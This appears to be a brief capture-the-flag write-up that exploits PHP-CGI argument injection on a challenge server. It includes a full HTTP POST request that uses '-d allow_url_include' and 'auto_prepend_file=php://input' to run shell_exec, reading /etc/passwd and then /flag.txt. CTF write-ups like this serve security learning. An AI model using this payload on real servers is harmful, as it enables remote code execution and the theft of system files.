 ## GI Joe write up 

There is a /cgi-bin/ and the apache and php is old so I decide to look for vulns
I ran nikto and it shows is vulnerable to /?-s this shows the source code of index.php
In the source code we can read that the flag is at /flag.txt
Searching for the vulnerablility I found this post https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/php-cgi-exploitation-by-example/

In the post they explain how to leverage the -d to execute php code with a post request:

```
POST /?-dallow_url_include%3d1+-dauto_prepend_file%3dphp://input HTTP/1.1
Host: jh2i.com:50008
Content-Type: application/x-www-form-urlencoded
Content-Length: 66


<?php $output = shell_exec('cat /etc/passwd');echo "$output"; die;
```

![2a50cd6d0759f4f8e3ec427f32a042fc.png](_resources/e3ae3cb72dc94dfea606001bb77db09a.png)

So In order to get the flag we need to execute ``<?php $output = shell_exec('cat /flag.txt');echo "$output"; die;``
